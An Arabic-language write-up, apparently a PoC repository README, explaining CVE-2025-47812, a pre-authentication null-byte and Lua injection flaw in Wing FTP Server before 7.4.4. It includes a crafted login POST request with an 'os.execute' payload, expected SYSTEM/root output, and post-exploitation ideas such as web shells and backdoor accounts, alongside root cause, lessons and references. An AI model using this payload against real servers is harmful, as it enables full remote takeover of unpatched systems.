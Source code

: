 # CVE-2025-47812 — ثغرة Wing FTP Server: إدخال بايت فارغ وحقن Lua (تنفيذ أوامر عن بُعد)

### نظرة عامة
- **معرّف CVE:** CVE-2025-47812  
- **تاريخ النشر:** 30 يونيو 2025  
- **الخطورة (CVSS):** 9.8 (حرجة)  
- **البرامج/الإصدارات المتأثرة:** Wing FTP Server (جميع المنصات، الإصدارات **قبل 7.4.4**)  
- **نوع الثغرة:** إدخال بايت فارغ + حقن Lua يؤدي إلى تنفيذ أوامر عن بُعد (RCE)

**ملخص:**  
وجود خلل في طريقة معالجة Wing FTP Server لأحرف **البايت الفارغ (`%00`) في اسم المستخدم** أثناء عملية المصادقة يسمح للمهاجمين بحقن **كود Lua** عشوائي. هذا يمكن أن يُمكّن **المهاجم غير المصادق** من تنفيذ أوامر نظام التشغيل بصلاحيات **SYSTEM (ويندوز)** أو **root (لينكس/يونكس)**.

نظرًا لأن الثغرة **تُستغل قبل المصادقة وبسهولة كبيرة**، فهي تُصنف على أنها **حرجة (RCE)** وقد لوحظ استخدامها في **هجمات حقيقية نشطة**.

---

### السياق
لفهم التأثير، من المهم معرفة **كيف يتعامل Wing FTP مع المصادقة** ولماذا تعتبر هذه الثغرة خطيرة:

- **Wing FTP Server** هو حل شائع لإدارة نقل الملفات عبر منصات متعددة.  
- أثناء المصادقة، يتم **تحليل أسماء المستخدمين وتخزينها** في ملفات جلسة مؤقتة.  
- الخادم يعالج بشكل غير صحيح **أحرف البايت الفارغ (`%00`) داخل أسماء المستخدمين**.  
- **المشكلة:** يمكن للمهاجم إلحاق **كود Lua بعد البايت الفارغ**، والذي يتم تمريره إلى مفسر Lua المدمج في Wing FTP.  
- **النتيجة:** تنفيذ الكود المحقون على الخادم بصلاحيات كاملة.

---

### السبب الجذري
تنشأ الثغرة بسبب **معالجة غير آمنة للمدخلات**:

- روتين المصادقة **لا يقوم بتطهير أحرف البايت الفارغ بشكل صحيح**.  
- بعد القطع عند البايت الفارغ، **يتم تحليل بقية الحمولة التي يسيطر عليها المهاجم**.  
- بما أن Wing FTP يستخدم **Lua للتشغيل الداخلي**، يتم تفسير الحمولة الضارة ككود Lua.  
- **التركيبة:** بايت فارغ + تفسير Lua = تنفيذ أوامر عن بُعد.

---

### استغلال الثغرة (خطوة بخطوة)

#### 1. تحديد نقطة تسجيل الدخول
يتصل المهاجم بصفحة تسجيل الدخول في Wing FTP أو نقطة النهاية الخاصة بها (عادة على المنفذ 5466 للوحة الإدارة):
```
https://victim-ftp.local:5466/admin_login.html
```

#### 2. تجهيز الحمولة الضارة
يقوم المهاجم بإدخال اسم مستخدم يحتوي على بايت فارغ متبوع بكود Lua.  
مثال تعليمي:
```
اسم المستخدم: validuser%00; os.execute("whoami")
كلمة المرور: أي شيء
```

#### 3. إرسال الطلب
طلب POST مصمم قد يبدو هكذا:
```http
POST /admin_login.html HTTP/1.1
Host: victim-ftp.local:5466
Content-Type: application/x-www-form-urlencoded

username=admin%00;os.execute('whoami')&password=test
```

#### 4. ملاحظة التنفيذ
البايت الفارغ يقص التحليل الطبيعي، لكن كود `os.execute()` في Lua يُنفذ داخل الخادم.  
المخرجات النموذجية قد تظهر:
```
nt authority\system
```
على ويندوز، أو
```
root
```
على لينكس.

هذا يؤكد **تنفيذ أوامر عن بُعد** بصلاحيات النظام العليا.

---

### ما بعد الاستغلال
بمجرد الوصول إلى تنفيذ الأوامر، يمكن للمهاجم:

* نشر **أصداف ويب** أو **قنوات عكسية** للبقاء مستمرًا.  
* إنشاء أو تعديل حسابات FTP للوصول الخلفي.  
* استخراج الملفات الحساسة مباشرة من مستودع FTP.  
* التحرك جانبياً داخل بيئة المؤسسة.

تم الإبلاغ عن **هجمات حقيقية** باستخدام هذه الثغرة لنشر backdoors مبنية على Lua.  
كما أصدر Rapid7 **وحدة Metasploit** للاختبار الأمني:  
`exploit/multi/http/wingftp_null_byte_rce`

---

### إثبات المفهوم

تم نشر **PoC تعليمي** بواسطة الباحث الأمني **Julien Ahrens** وتم تكييفه لاحقًا من قبل Huntress Labs. [`poc/exploit.py`](poc/exploit.py)  
يوضح PoC:  
- حقن بايت فارغ في حقل اسم المستخدم.  
- تنفيذ أوامر Lua يتحكم بها المهاجم.  
- تأكيد تنفيذ أوامر عشوائية (مثل `whoami`).  

⚠️ يجب استخدام PoC فقط في بيئات اختبارية أو مختبرية آمنة.
https://github.com/0xcan1337/CVE-2025-47812-poC/
---

### الدروس المستفادة

1. **حقن البايت الفارغ لا يزال موجودًا.** الحيل القديمة مثل `%00` يمكن أن تكسر الأكواد الحديثة إذا لم تُعالج بشكل آمن.  
2. **المفسرات المدمجة خطيرة.** السماح لمدخلات المستخدم بالوصول إلى محركات Lua، Python، أو JavaScript يشكل خطرًا.  
3. **RCE قبل المصادقة = أقصى درجة خطورة.** الأخطاء قبل المصادقة تعرّض النظام للإنترنت بلا حماية.  
4. **التحديث السريع ضروري.** تم استغلال الثغرة في الأيام الأولى بعد الإعلان عنها.  
5. **الطبقات الدفاعية مهمة.** لا يجب كشف لوحات الإدارة مباشرة للإنترنت دون حماية على مستوى الشبكة.

---

### المراجع

* [مدونة Huntress — استغلال Wing FTP Server في العالم الحقيقي (CVE-2025-47812)](https://www.huntress.com/blog/wing-ftp-server-remote-code-execution-cve-2025-47812-exploited-in-wild)  
* [HelpNetSecurity — ثغرة حرجة في Wing FTP مستغلة (CVE-2025-47812)](https://www.helpnetsecurity.com/2025/07/11/critical-wing-ftp-server-vulnerability-exploited-in-the-wild/)  
* [مدونة SecPod — استغلال فعال لـ CVE-2025-47812](https://www.secpod.com/blog/wing-ftp-under-siege-critical-vulnerability-actively-exploited/)  
* [وحدة Metasploit: exploit/multi/http/wingftp_null_byte_rce](https://www.rapid7.com/db/modules/exploit/multi/http/wingftp_null_byte_rce/)  
* [إشعار البائع — ملاحظات إصدار Wing FTP Server v7.4.4](https://www.wftpserver.com/serverhistory.htm)  
* [سجل CVE — CVE-2025-47812 (MITRE)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-47812)  
* [سجل NVD — CVE-2025-47812](https://nvd.nist.gov/vuln/detail/CVE-2025-47812)

